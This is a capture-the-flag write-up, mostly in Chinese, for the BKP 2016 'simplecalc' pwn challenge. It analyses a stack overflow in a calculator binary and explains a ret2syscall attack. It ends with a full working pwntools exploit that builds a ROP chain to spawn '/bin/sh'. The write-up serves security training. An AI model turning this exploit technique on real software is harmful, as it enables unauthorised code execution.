 ```yaml
---
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 


title: nightmare 2.9.Boston Key Part 2016 simplecalc-wp
date: 2023-08-14 08:44:24
tags:
- CTF
- pwn
- BKP2016
- nightmare
- stack 
- ret2syscall
categories:
- pwn-wp
---
```


[相关资源](https://github.com/guyinatuxedo/nightmare/tree/master/modules/07-bof_static/bkp16_simplecalc)  

## 文件分析

```python
$ checksec simplecalc
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```sh
$ ./simplecalc  
    |#------------------------------------#|
    |         Something Calculator         |
    |#------------------------------------#|

Expected number of calculations: 50
Options Menu:
 [1] Addition.
 [2] Subtraction.
 [3] Multiplication.
 [4] Division.
 [5] Save and Exit.
=> 1
Integer x: 1
Integer y: 1
Do you really need help calculating such small numbers?
Shame on you... Bye
```

## 代码分析
![img](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/08/14/BKP2016-simplecalc-wp/0x1.png?raw=true)  

1. 可以看到首先获取输入`v20`，然后进行`v20`次计算操作，计算结果存入数组`v21`中
2. 当选择选项5时，会将`v21`中的内容全部拷贝到`v18`中，明显此处存在栈溢出切溢出内容我们可以通过计算结果来控制

## 攻击方法
该文件是静态链接的，但是没有找到库函数`system`，并且开启了栈不可执行   
`ALT+T` 查找`syscall` 发现存在，则可以利用系统调用来实现攻击    
`rdi -> '/bin/sh'字符串指针`   
`rsi -> 0`  
`rdx -> 0`  
`rax -> 0x3b`   

1. 由`ROPgadget`我们可以获取到可用pop指令地址
2. 需要将'/bin/sh'写入到数据段中（写在栈上不知道地址，数据段地址固定）  
    * `ROPgadget --binary simplecalc --only "mov|ret"`
    * 刚好有 `0x0000000000400aba : mov qword ptr [rdi], rdx ; ret`
    * 则只要构造pop链将目标地址置入`rdi`，将'/bin/sh'置入`rdx`再调用即可
3. 最后构造pop链执行`syscall`  

## exp
```python
from pwn import *
import sys

context(os='linux', log_level='debug')

mode = ''
if len(sys.argv) > 1:
    mode = sys.argv[1]

proc = process("./simplecalc")

def s(x): proc.send(x)
def sl(x): return proc.sendline(x)
def sd(x): return proc.send(x)
def sla(x, y): return proc.sendlineafter(x, y)
def sa(x, y): return proc.sendafter(x, y)
def ru(x): return proc.recvuntil(x)
def rc(): return proc.recv()
def rl(): return proc.recvline()
def li(con): return log.info(con)
def ls(con): return log.success(con)
def pi(): return proc.interactive()
def pcls(): return proc.close()
def ga(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))

def addSingle(x):
	proc.recvuntil("=> ")
	proc.sendline("1")
	proc.recvuntil("Integer x: ")
	proc.sendline("100")
	proc.recvuntil("Integer y: ")
	proc.sendline(str(x - 100))  # 注意代码要求任意参与运算的数字都要大于0x27


def add(z): 
    # 注意数组中每个位置为int(dword型)，
    # 64位栈内基本块为qword，因此要分高低32位分别存入
	x = z & 0xffffffff
	y = ((z & 0xffffffff00000000) >> 32) 
	addSingle(x)
	addSingle(y)

gscript = '''
    b main
    b * 0x401545
    c
'''
if mode == '-d':
    gdb.attach(proc, gdbscript=gscript)

rax_ret = 0x44db34
rdx_ret = 0x437a85
rdi_ret = 0x401b73
rsi_ret = 0x401c87
syscall = 0x400488
dest = 0x6C4480
mv_rdx2_prdi = 0x400aba


# rdi_ret + dest + rdx_ret + b'/bin/sh\x00' + mv_rdx2_prdi
# rsi_ret + p64(0) + rdx_ret + p64(0) + rax_ret + p64(0x3b) + syscall
sla(b'calculations: ', b'100')
for i in range(9):
    # 填满当前栈空间，注意填到v21时最好填0，
    # 因为代码会对v21进行free操作，填其他的可能触发段错误
    add(0)       

add(rdi_ret)  
add(dest)
add(rdx_ret)
add(0x0068732f6e69622f)   # /bin/sh

add(mv_rdx2_prdi)
add(rsi_ret)
add(0)
add(rdx_ret)
add(0)
add(rax_ret)
add(0x3b)
add(syscall)

sla(b'=> ', b'5')

pi()
pause()

```